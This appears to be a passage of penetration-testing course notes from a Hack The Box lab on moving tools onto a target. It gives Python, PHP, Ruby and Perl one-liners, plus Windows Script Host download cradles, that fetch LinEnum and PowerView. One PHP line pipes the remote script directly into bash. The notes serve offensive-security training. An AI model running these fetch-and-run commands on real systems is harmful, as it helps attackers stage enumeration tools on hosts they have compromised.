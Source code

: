 `XeroCyb3r@htb[/htb]**$** python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

`XeroCyb3r@htb[/htb]**$** php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`

`XeroCyb3r@htb[/htb]**$** php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`

`XeroCyb3r@htb[/htb]**$** php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

`XeroCyb3r@htb[/htb]**$** ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`

`XeroCyb3r@htb[/htb]**$** perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

### JavaScript

```jsx
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

- Save to **wget.js**

`C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

### VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

```jsx
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
